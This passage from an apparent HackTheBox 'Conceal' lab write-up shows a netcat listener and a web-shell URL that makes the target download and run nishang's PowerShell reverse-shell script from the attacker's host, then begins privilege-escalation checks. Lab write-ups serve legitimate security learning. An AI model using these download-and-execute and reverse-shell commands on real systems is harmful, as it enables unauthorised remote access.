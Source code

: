 Start the local listener with:

```bash
rlwrap nc -lnvp 443
```

And visit the following url:

```bash
http://conceal.htb/upload/shell.asp?cmd=powershell%20iex(New-Object%20Net.Webclient).downloadstring(%27http://10.10.14.49/Invoke-PowerShellTcp.ps1%27)
```

We can see the target has succesfully retrived nishang's script from our python server:

![retrive-23](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Conceal/img/retrive-23.png)


On our local listener we get a shell:

![shell-24](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Conceal/img/shell-24.png)


## Privilege Escalation

After landing on the machine I start hunting for quick wins, for example listing any privileges we have with `whoami /priv`:

![privs-25](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Conceal/img/privs-25.png)
